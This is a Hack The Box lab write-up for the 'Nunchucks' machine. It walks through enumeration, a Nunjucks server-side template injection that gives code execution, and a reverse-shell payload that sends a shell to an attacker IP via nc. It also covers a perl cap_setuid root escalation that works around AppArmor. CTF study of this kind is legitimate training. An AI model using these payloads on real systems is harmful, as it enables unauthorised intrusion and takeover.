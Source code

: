 ```yaml
---
title: "Nunchucks HTB"
date: 2021-11-09T17:30:30
categories:
  - study
tags:
  - Linux
  - Web
  - NodeJS
  - SSTI
  - SUID
  - AppArmor
classes: wide
---
```


Nunchucks is a 7 day retired box, it is easy rated and it can be found [here.](https://app.hackthebox.com/machines/Nunchucks)

>*"Nunchucks is a easy machine that explores a NodeJS-based Server Side Template Injection (SSTI)."*

<h2> Enumeration</h2>

**Nmap scan results:**

```
22/tcp  open  ssh      syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                            
80/tcp  open  http     syn-ack nginx 1.18.0 (Ubuntu)                                                                        
| http-methods:                                                                                                                                                  
|_  Supported Methods: GET HEAD POST OPTIONS                                 
|_http-server-header: nginx/1.18.0 (Ubuntu)                                                                                                                      
|_http-title: Did not follow redirect to https://nunchucks.htb/                                                                                                  
443/tcp open  ssl/http syn-ack nginx 1.18.0 (Ubuntu)                                                                     
|_http-server-header: nginx/1.18.0 (Ubuntu)     
|_http-title: Nunchucks - Landing Page                                                                               
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK/localityName=Bournemouth
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
```

<h4>What is the scan telling us?</h4>

- Port 22 is open showing OpenSSH 8.2p1 on Ubuntu.
- Port 80 is open showing a nginx webserver.
- Port 443 shows ssl/http or https nginx webport.

We see the nunchucks.htb domain so we add it to our `/etc/hosts` file.

Navigating to the main page on port 443 and 80 we see: 

<img src="/assets/images/nunchucks/nunchuck0.PNG" alt="Different Vhost found.">

There is a registration and login page. However when we attempt to register or log in we get an error that logins and registrations are temporarily disabled.

**Gobuster:**
We use Gobuster's dir mode and find nothing of note, just things you can find navigating the site. 

However using vhost mode we find the following:

<img src="/assets/images/nunchucks/nunchuck1.PNG" alt="Different Vhost found.">

We add this to our `/etc/hosts` file and navigate to it.

<img src="/assets/images/nunchucks/nunchuck2.PNG" alt="https://store.nunchucks.htb">

From here we try to navigate through all the buttons and find that none of them link to any other page. However, inputting a test email shows that this site may be vulnerable to a Server-Side Template Injection (SSTI). 

<img src="/assets/images/nunchucks/nunchuck3.PNG" alt="Returns our email.">

<h4>What is an SSTI?</h4>

[Portswigger](https://portswigger.net/research/server-side-template-injection) explains SSTI as:

>*"Web applications frequently use template systems such as Twig and FreeMarker to embed dynamic content in web pages and emails. Template Injection occurs when user input is embedded in a template in an unsafe manner."*

We can test for an SSTI by submitting math to the server and seeing what is returned:

<img src="/assets/images/nunchucks/nunchuck4.PNG" alt="It's executing!">

The server has seen `7*7` and has returned 49 to us. It is executing what we give it, essentially an RCE.

<h2>Foothold</h2>

From here we have to understand what underlying template engine is running to see if there are any known vulns. We could test and devise our own manually but I'm not quiteeeeeee there yet.

Using Burpsuite to capture the email submission and seeing what the response is with repeater we see:

<img src="/assets/images/nunchucks/nunchuck5.PNG" alt="Powered by Express">

According to [wikipedia](https://en.wikipedia.org/wiki/Express.js), Express is:

>*"Express.js, or simply Express, is a back end web application framework for Node.js"* 

From here more googling leads us to a list of template engines usable by Express, including one named "Nunjucks".

We google for "Nunjucks SSTI" and find a nice [breakout guide](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine).

There exists a way to print `/etc/passwd`. Changing this to an email format and adding `\` between the double quotes to prevent errors:

<img src="/assets/images/nunchucks/nunchuck6.PNG" alt="Returns /etc/passwd">

Since we know this breakout works on this site we can now execute whatever we want! 

We startup our classic nc listener and find a reverse shell script to insert like so:

```
execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOURIP YOURPORT >/tmp/f')\")()}}
```

We catch this shell, navigate to `/home/david` and see the `user.txt` right there:

<img src="/assets/images/nunchucks/nunchuck7.PNG" alt="User!">

<h2>Privilege Escalation</h2>

From here we notice that the box has a `SUID` tag on it, and use `getcap -r / 2>/dev/null` like so:

<img src="/assets/images/nunchucks/nunchuck8.PNG" alt="Good old setuid.">

We see `/usr/bin/perl = cap_setuid+ep` which we know from [Cap](https://moseskonsue.github.io/writeup/cap/) will allow us to escalate privileges. Checking [GTFObins](https://gtfobins.github.io/gtfobins/perl/) we see a one liner to give us root. 

However running it does... Nothing?

Being completely stuck I check out a great writeup from [0xdf](https://0xdf.gitlab.io/2021/11/02/htb-nunchucks.html). Who explains that the reason why nothing is happening is because of [AppArmor](https://en.wikipedia.org/wiki/AppArmor), from wikipedia:

>*"AppArmor ("Application Armor") is a Linux kernel security module that allows the system administrator to restrict programs' capabilities with per-program profiles"*

AppArmor would have revealed itself if I attempted to run the perl one liner in a script instead. Returning the following:

```
Can't open perl script "x": Permission denied
```

0xdf points out through their research they found that there is a [bug](https://bugs.launchpad.net/apparmor/+bug/1911431). This bug means that AppArmor will prevent execution when the binary is invoked via path, but if it's invoked by a SheBang(#) no such protection is offered.

This means we can create a script version of the one liner in `/tmp` that looks like:

```perl
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "/bin/sh"
```

Which results in:

<img src="/assets/images/nunchucks/nunchuck9.PNG" alt="whoami">

We find the root flag in the usual `/root/root.txt`.


<img src="/assets/images/nunchucks/nunchuck10.PNG" alt="Nice!">


<h4>For next time:</h4>

- The presence of one domain name suggests the possibility of others existing, use Gobuster vhost to discover others.
- Figure out a good workflow for testing sites for OWASP top 10 vulns. {{7/7}} etc. 



